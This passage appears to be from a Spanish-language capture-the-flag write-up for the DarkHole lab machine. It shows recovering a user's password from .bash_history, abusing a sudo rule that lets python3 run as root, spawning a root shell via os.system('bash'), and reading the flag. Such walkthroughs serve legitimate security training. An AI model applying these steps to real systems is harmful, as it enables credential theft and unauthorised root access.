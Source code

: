 Podemos observar el historial de bash, donde identificamos la contraseña del usuario losy, ademas considerar el proceso de tratamiento de la tty.
```ruby
cat .bash_history 
clear
password:gang 
```
Podemos observar que el binario de python3, tiene permisos de execución por lo que lo puede utilizar para elevar privilegios.
```ruby
losy@darkhole:~$ sudo -l
sudo -l -S
[sudo] password for losy: gang
Matching Defaults entries for losy on darkhole:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
losy@darkhole:~$ 
```
Una vez identificado que python3 puede ser ejecutado como root, se puede utilizar para elevar privilegios

```ruby
losy@darkhole:/opt/web$ sudo -u root python3
Python 3.8.10 (default, Jun  2 2021, 10:49:15) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("whoami")
root
0
>>> os.system("bash")
root@darkhole:/opt/web# 
root@darkhole:/opt/web# cd ~
root@darkhole:~# ls
root.txt  snap
root@darkhole:~# cat root.txt 
DarkHole{'Legend'}
root@darkhole:~# 
```












